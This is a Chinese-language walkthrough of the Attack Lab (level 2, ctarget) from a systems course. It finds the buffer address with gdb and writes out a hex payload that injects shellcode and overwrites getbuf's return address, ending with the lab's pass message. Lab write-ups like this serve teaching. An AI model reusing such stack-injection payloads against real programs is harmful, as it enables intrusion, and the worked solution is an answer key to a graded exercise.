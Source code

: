 ```
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   

```
然后　

gdb ctarget 开始调试，因为我想知道缓冲区从哪里开始，所以在 getbuf 中看看 %rsp 的值即可
** 注意每次在ｇｄｂ里面运行也需要加 -q表示本地　**

然后下一步因为是外网所以有点不同；具体为

```

(gdb) ctarget

(gdb) b *(getbuf+12)  #注意为１２，得到断点
(gdb) run -q   ＃本地
Starting program

(gdb) p/x $rsp

```
具体为：
```
(gdb) b *(getbuf+12)
Breakpoint 4 at 0x4017b4: file buf.c, line 16.
(gdb) c
Continuing.
Type string:fdafdsadf

Breakpoint 4, getbuf () at buf.c:16
16      in buf.c
(gdb) info registers
rax            0x5561dc78       1432476792
rbx            0x55586000       1431855104
rcx            0x19     25
rdx            0x7ffff7dd3790   140737351858064
rsi            0xa      10
rdi            0x7ffff7dd18e0   140737351850208
rbp            0x55685fe8       0x55685fe8
rsp            0x5561dc78       0x5561dc78   #rsp的地址
```
得到地址为　０x5561dc78

然后编写p2.txt文件：
```
48 c7 c7 fa
97 b9 59 68
ec 17 40 00
c3 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
78 dc 61 55  
```
然后
```
./hex2raw < p2.txt > p2r.txt
➜  target1-ATTACK ./ctarget -qi p2r.txt
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
```